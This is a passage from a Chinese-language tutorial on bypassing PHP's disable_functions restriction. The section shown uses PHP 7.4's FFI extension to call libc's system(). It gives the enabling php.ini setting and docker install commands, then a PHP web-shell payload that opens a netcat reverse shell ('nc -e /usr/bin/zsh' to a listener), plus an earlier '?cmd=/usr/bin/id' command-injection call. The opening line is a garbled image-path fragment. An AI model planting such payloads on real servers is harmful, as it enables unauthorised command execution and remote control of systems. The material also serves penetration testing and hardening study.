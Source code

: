 命令:`?cmd=/usr/bin/id`

![](img/12.png)


## 7. PHP7.4 FFI 绕过 disable_functions

`PHP7.4` 的一个新特性 `FFI（Foreign Function Interface）`
当PHP所有的命令执行函数被禁用后，通过PHP 7.4的新特性FFI可以实现用PHP代码调用C代码的方式，先声明C中的命令执行函数，然后再通过FFI变量调用该C函数即可`Bypass disable_functions`。


**使用条件**

- Linux 操作系统
- PHP >= 7.4
- 开启了 FFI 扩展且 `ffi.enable=true`

```
[ffi]
; FFI API restriction. Possible values:
; "preload" - enabled in CLI scripts and preloaded files (default)
; "false"   - always disabled
; "true"    - always enabled
ffi.enable=true

; List of headers files to preload, wildcard patterns allowed.
;ffi.preload=
```


使用`docker` 部署服务：
```bash
apt-get install libffi-dev

docker-php-ext-install ffi
```
重启服务，上传 Payload 网页

```php
<?php
$a='nc -e /usr/bin/zsh 127.0.0.1 8888';
$ffi = FFI::cdef(
   "int system(char *command);", // this is a regular C declaration
   "libc.so.6");
// call C's printf()
$ffi->system($a);
?>
```
